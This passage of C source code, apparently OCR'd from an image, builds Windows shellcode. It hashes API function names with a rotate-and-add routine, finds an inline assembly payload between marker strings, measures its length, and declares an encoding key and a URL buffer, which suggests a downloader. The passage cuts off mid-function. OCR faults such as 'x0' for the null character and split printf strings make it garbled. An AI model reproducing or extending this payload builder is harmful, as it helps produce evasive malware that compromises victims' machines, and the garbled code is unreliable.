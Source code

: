 unsigned char url[256]={0};

// ASM shellcode main function
void ShellCode();

// Get function hash
static DWORD __stdcall GetHash ( char *c )
{
 DWORD h = 0;

 while ( *c )
 {
 __asm ror h, HASH_KEY

 h += *c++;
 }
 return( h );
}

void Make_ShellCode()
{
 unsigned char *pSc_addr;
 unsigned int Sc_len;
 unsigned int Enc_key=ENC_KEY;
 unsigned long dwHash[100];
 unsigned int dwHashSize;

 int i,j,k,l;

 // Get functions hash
 //printf("[+] Get functions hash strings.
");
 for (i=0;;i++)
 {
 if (functions[i][0] == 'x0') break;
 dwHash[i] = GetHash((char*)functions[i]);
 //printf(" %.8X %s
", dwHash[i], functions[i]);
 }
 dwHashSize = i*4;

 // Deal with shellcode
 pSc_addr = (unsigned char *)ShellCode;

 for (k=0;k<MAX_SC_LEN;++k )
 {
 if(memcmp(pSc_addr+k,SEARCH_STR, SEARCH_LEN)==0)
 {
 break;
 }
 }
 pSc_addr+=(k+SEARCH_LEN); // Start of the ShellCode

 for (k=0;k<MAX_SC_LEN;++k)
 {
 if(memcmp(pSc_addr+k,SEARCH_STR, SEARCH_LEN)==0) {
 break;
 }
 }
 Sc_len=k; // Length of the ShellCode
